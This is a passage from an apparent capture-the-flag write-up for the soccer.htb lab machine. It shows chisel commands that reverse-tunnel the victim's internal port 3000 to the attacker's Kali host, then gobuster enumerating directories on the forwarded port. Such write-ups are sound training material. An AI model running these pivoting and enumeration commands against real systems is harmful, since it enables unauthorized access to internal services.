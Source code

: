 ![](./IMG/32.png)
- Set up ```soc-player.soccer.htb``` to host file or using ```chisel ``` to forward the port to attacker's local. (chisel actually is not necessary.)
    - chisel(Kali)
    ```
    ./chisel server -p 9898 --reverse
    ```
    
    ![](./IMG/33.png)
    - chisel (victim)
    ```
    ./chisel client 10.10.19.16:9898 R:3000:127.0.0.1:3000
    ```
    
    ![](./IMG/34.png)
- Directory enumerate for this subdomain
```
gobuster dir -u http://127.0.0.1:3000 -w /usr/share/wordlists/dirb/common.txt
```
